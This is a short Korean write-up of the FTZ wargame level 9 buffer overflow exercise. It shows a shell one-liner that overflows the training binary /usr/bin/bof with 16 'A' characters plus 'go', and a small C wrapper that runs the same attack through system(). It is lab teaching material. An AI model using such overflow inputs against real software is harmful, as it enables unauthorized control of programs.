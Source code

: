 이렇게 메모리에 대한 접근 및 구조에 대한 이해가 되야 버퍼오버플로를 이해할 수 있다.

몇가지 명령줄이다아...

```
[level9@ftz tmp]$ (python -c 'print "A"*16+"go"'; cat) | /usr/bin/bof
It can be overflow : Good Skill!


```

그 외 공격코드를 만들어본다.

```c
#include <stdio.h>

#define VICTIM "/usr/bin/bof"
#define DEFAULT_BUFFER_SIZE 100

char cmdBuf[DEFAULT_BUFFER_SIZE];

int main(){
        sprintf(cmdBuf,"(python -c 'print \"A\"*16+\"go\"'; cat) | %s",VICTIM);
        system(cmdBuf);
        return 0;
}
```



# [+] Reference

1. <a href="http://wikibook.co.kr/system-hacking-techniques/?ckattempt=1">***문제 풀이로 배우는 시스템 해킹 테크닉*** </a>
